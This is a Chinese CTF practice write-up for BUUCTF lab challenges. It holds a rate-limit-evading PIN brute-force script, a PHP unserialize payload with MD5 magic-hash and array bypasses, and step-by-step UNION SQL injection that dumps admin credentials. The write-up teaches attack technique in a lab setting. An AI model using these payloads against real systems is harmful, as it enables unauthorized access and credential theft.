

BUUCTF 刷题笔记——Basic 2
BUUCTF 刷题笔记——Basic 2
BUU BRUTE 1
启动靶机
打开只有一个简单的登录界面
研究页面
随便输入一个账户和密码测试一下：
提示用户名错误，并且用户名和密码均在 URL 中显示，因此为 GET 请求。
目测需要暴力破解（BRUTE），首先测试常用用户名和密码 admin：
依然错误，但是提示信息变成了密码错误，且明确告诉我们密码为四位数字。
因此，用户名 admin 是正确的，现在只需对四位数字的密码进行暴力破解即可，那问题就简单了。
暴力破解
四位数字的遍历写一个简单的 Python 程序即可完成，代码如下：
1
2
3
4
5
6
7import requests
url = "[靶机地址]/?username=admin&password="
for i in range(9999):
res = requests.get(url + str(i))
if res.text != "密码错误，为四位数字。":
print(res.text)
break其中 requests.get() 通过 GET 方法向靶机发起请求，res.text 则回去请求返回的文本，并且我们已知密码错误时返回的文本内容为『密码错误，为四位数字。』，因此直接比对即可。
上述代码虽说已经能够完成四位数密码的暴力破解，但是很遗憾，并不能用于实战，至少在 BUU 不行，因为请求频率过高，目前实测请求五十次左右就会报 429 错误。最终密码为 6490，以这个频率限制的话，暴力破解将会比较麻烦。
我的解决方法是在代码中添加 time.sleep() ，当请求遇到任何问题就让程序暂停以强行降低频率。代码如下：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16import requests
import time
url = "[靶机地址]/?username=admin&password="
i = 0
while i <= 9999:
res = requests.get(url + str(i))
print(str(i) + ": " + str(res.status_code))
i = i + 1
if res.text != "密码错误，为四位数字。":
if res.status_code != 200:
time.sleep(1)
i = i - 1
continue
if res.status_code == 200:
print(res.text)
break等待几分钟可以看到输出了登录成功的提示，后面接着的便是 flag，虽然可以顺利完成，但是依然不够优雅，再留个坑，希望以后能找到更优雅的
暴力 方法。
BUU CODE REVIEW 1
启动靶机
直接就是一段代码：
代码审计
注释和语法高亮函数 highlight_file() 就不用审了，首先看这个 BUU 类：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20class BUU {
public $correct = "";
public $input = "";
// 类中包含两个成员变量
public function __destruct() {
// 析构函数，类的生命末期自动调用
try {
$this->correct = base64_encode(uniqid());
// uniqid() 函数基于以微秒计的当前时间,生成一个唯一的 ID。
// base64_encode() 使用 base64 对 ID 进行编码
// 因此变量 correct 中存储的是运行时才能确定的未知量
if($this->correct === $this->input) {
echo file_get_contents("/flag");
// 但 correct 与 input 的值相同则输出 flag
}
} catch (Exception $e) {
}
}
}代码的解析已置于注释中，由该类可以判断，要使程序输出 flag，则必须让 correct 与 input 变量中的值相同。可以让 input 中的值等于 correct 变量的引用，相当于两个变量同时指向同一个值，这样在析构函数对 correct 操作时，也等价于对 input 进行操作，即实现了两个变量的动态相等。只需如下构建类即可。
1
2$a = new BUU();
$a->correct = &$a->input;要利用上述方法夺旗，后面这段代码就很重要了：
1
2
3
4
5
6
7if($_GET['pleaseget'] === '1') {
if($_POST['pleasepost'] === '2') {
if(md5($_POST['md51']) == md5($_POST['md52']) && $_POST['md51'] != $_POST['md52']) {
unserialize($_POST['obj']);
}
}
}这段代码一共获取了五个变量，其中 pleaseget 通过 GET 方法而其他均通过 POST 方法。值得注意的是嵌套的 if 语句最终执行的是 unserialize() 函数，这个函数的作用就是反序列化。
首先研究一下什么叫序列化，PHP官方文档对 对象序列化 有着全面的解。其实序列化就是将一个 php 值转化为一个包含字节流的字符串，方便存储与传递，可直接调用 serialize() 方法完成序列化，具体实现可参考 官方文档。而将字符串变回原来的值，则称为反序列化。如前文所述，要程序输出 flag，就需要我们实例化一个 BUU 类的对象并将变量 correct 初始化为变量input 的引用。这个步骤直接传递代码肯定是无法实现的，但是利用反序列化函数 unserialize() 即可将一串序列化后的字符转化为该对象。而获取这串序列化字符串可通过这段代码直接获取：
1
2
3
4
5
6
7
8
9
10
11
class BUU {
public $correct = "";
public $input = "";
}
$a = new BUU();
$a->correct = &$a->input;
echo serialize($a);由于序列化只保存变量，因此这里构建 BUU 类只需保留两个变量即可，这段程序的最终输出结果即为我们所需要的序列化字符串：
1
O:3:"BUU":2:{s:7:"correct";s:0:"";s:5:"input";R:2;}
在将序列化字符串传递给变量 obj 之前，还需要通过嵌套 if 语句，即变量 pleaseget 值为 1，变量 pleasepost 值为 2，变量 md51 与变量 md52 值不相等，但是他们的 MD5 值要弱相等。前面两个实现较为简单，最后一个条件就非常有意思了。在变量值不同的情况下保持 MD5 值弱相同，有两种实现方法：
第一种方法是利用 md5() 无法处理数组而返回 null 的特性，将两个变量赋值为两个不同的数组即可：
1
md51[]=1&md52[]=2
第二种方法则是利用弱相等，在 PHP 中弱相等会先将值转化为相同类型后进行比较，其中如果字符串没有包含 .，e，E 并且其数值值在整形的范围之内该字符串被当作int来取值，其他所有情况下都被作为float来取值。而如果字符串前两个字符为 0e，表示 0 的多次幂，则字符串的值将始终为零。因此，只需找出 MD5 值以 0e 开头的值即可，常见的有如下几个：
字符串 MD5值 QNKCDZO 0e830400451993494058024219903391 s878926199a 0e545993274517709034328855841020 s155964671a 0e342768416822451524974117254469 s214587387a 0e848240448830537924465865611904 s214587387a 0e848240448830537924465865611904 s878926199a 0e545993274517709034328855841020 s1091221200a 0e940624217856561557816327384675 s1885207154a 0e509367213418206700842008763514 只需将两个变量赋值为其中任意两个不同的字符串即可。
装载数据
由上最终需要传递的变量值就确定了，其中通过 GET 方法传递的变量只需将赋值置于 URL 后即可：
1
[靶机地址]/?pleaseget=1
而通过 POST 方法传递的变量则需要通过 HackBar 工具来完成，首先构造 payload：
1
pleasepost=2&md51[]=1&md52[]=2&obj=O:3:"BUU":2:{s:7:"correct";s:0:"";s:5:"input";R:2;}
或者是：
1
pleasepost=2&md51=s878926199a&md52=s1885207154a&obj=O:3:"BUU":2:{s:7:"correct";s:0:"";s:5:"input";R:2;}
浏览器 F12 选择 HackBar，在 URL 后加入 GET 部分数据，在 Post data 框中输入 POST 部分数据，点击 Execute 即可。
在页面的最后，就会出现想要的数据！
BUU SQL COURSE 1
启动靶机
BUU 新闻网，看起来还挺丰富，得好好研究研究！
研究页面
一共五个可点击部分，热点列表有三个新闻可点击，分别为以下内容：
点击登录按钮即可进入登录页面，可输入用户名密码后登录，当然我们并不知道用户名与密码：
点击热点按钮则又会回到首页得热点列表，目测这个按钮对我们没有任何帮助。
先测试简单账户名和密码 admin，果然还是提示错误，URL 没有变化，因此是通过 POST 方法请求提交的。
尝试了万能密码以及各自闭合之后，依然提示错误，应该是没办法通过登录界面直接注入了。说来也是，人家设置这么多界面，万能密码就给注入成功了也太不像话了。所以转战其他页面寻找注入点，在之前的预览中，三个热点貌似都没有什么需要提交的表单，因此 F12 看看后台的请求。
从首页点进 测试新闻1 可以看到浏览器多了一个请求，并且通过 GET 方法提交了 id 的数据。那么就可以从这里开始尝试注入！

经测试，id 赋值为 1、 2、 3 分别返回三条新闻的内容，当然这并没有什么用。我们需要先当前 SQL 语句查询的数据库中表的列数，构造 payload 如下：
--+ 表示注释防止 SQL 语句后续部分干扰，本题也可省略。order by 表示按对应列排序，后面的数字则表示第几列。数字为 2 时浏览器能够正常回显，说明当前 SQL 语句至少查询了两列数据。1
id=1 order by 2--+
当数字修改为 2 时浏览器无回显，说明当前 SQL 语句仅查询了两列数据。
接下来判断回显位，即测试有几列数据可以回显至浏览器中，构造 payload 如下：
1
id=-1 union select 1,2--+
其中 id 赋值为 -1是为了使当前查询语句前半句查找失败，这样浏览器收到的回显就会是我们自己构造的后半段查询结果。当然，后面的数字序列可以为任意数字，因为该查询语句并没有向任何数据块查询，而是直接返回后方的数字序列。因此我们可以利用此来判断几列数据可用于回显。此前已知语句查询两列数据，而使用上述 payload 浏览器可以正常回显，可知查询的两列数据均可用于回显。
害本来就是显示两组数据，不用测试都可以知道，不过这里还是练习一下。
接下来就可以正式查找数据库中藏着的用户名与密码了！首先先看看有哪些数据库，构造 payload 如下：
-1 的作用同上，即让前部分查找语句失败从而回显后部分查找语句所查找到的内容。后部分查找语句中查找了两个部分，对应于可供回显的两部分数据，现在只需确认有哪些数据库，因此只需使用一部分数据，另一部分直接使用数字填充即可。当然，填充是必须的，若只提供一部分数据将导致查询失败而无法回显。1
id=-1 union select 1,group_concat(schema_name) from information_schema.schemata--+
而要理解对所有数据库名的查询原理，首先我们要知道在 MySQL 中有一个自带的数据库 information_schema，该数据库用于存储数据库的元数据，即数据的数据，常用的各数据的结构如下图所示：

要查询所有数据库名，就需要查询该库中的 schemata 表下的字段 schema_name。而 group_concat() 函数则负责将全部数据整合到一起，在该语句中表示查找所有的数据库名。查询结果如图：
即共有六个数据库，其中 information_schema、mysql、performance_schema 为 MySQL 自带的数据库，因此，我们需要的数据将会在 ctftraining 或 test 或 news 三个数据库中。
勿喷，下面我就会知道根本不用查询这些数据库，因为完全没用……
理论上接下来查询这三个数据库中的数据即可，首先查询 ctftraining 数据库中又哪些表，构造 payload 如下：
1
id=-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='ctftraining'--+
原理同上，其中由于需要指定数据库，因此要加上一个限定条件。查询结果如下：

可以看出该数据库中共有三张表，分别为 FLAG_TABLE、news、users，那么这个 FLAG_TABLE 表就很有意思了，我们要的就是 flag 啊！因此直接查一下这个表中的数据，构造 payload 如下：
1
id=-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='FLAG_TABLE'--+
查询到表中仅有一个字段 FLAG_COLUMN：
那么现在直接查询该字段数据！想得美！
很遗憾，一开始便犯了错误，我们能查这些数据库、表以及字段的名字，是因为 MySQL 默认保存了信息供我们查询，并不意味着就能直接拿到数据了。一开始寻找注入点时就应该知道，我们的操作范围只在注入点处所使用的数据库。因此不需要知道有哪些数据库，而需要知道当前使用那个数据库，构造 payload 如下：
1
id=-1 union select 1,database()--+
其中 database() 函数就会返回当前数据库名称，浏览器回显值可以看出当前使用的数据库为 news：

接下来就要查询该数据库中有哪些表了，害，已经很熟了，构造 payload 如下：
1
id=-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='news'--+
当然若对数据库的名字并没有兴趣的话，上述两步其实完全可以合并：
1
id=-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()--+
根据浏览器回显可以看出该数据库中有两个表，根据名字肯定应优先考虑 admin 表。
那么就该查 admin 表中有哪些字段了，构造 payload 如下：
1
id=-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='admin'--+
查询出来共三个字段，分别是 id、username、password，那就很有意思了！
显然只要查询 username 和 password 两个字段中的数据我们就成功了！构造 payload 如下：
1
id=-1 union select username,password from admin--+
非常普通的查询语句，可回显的两个位置分别显示用户名与密码，接下来这俩将明晃晃地显示在浏览器中：
正常登录
将获取的用户名与密码在登录页面登录，于是：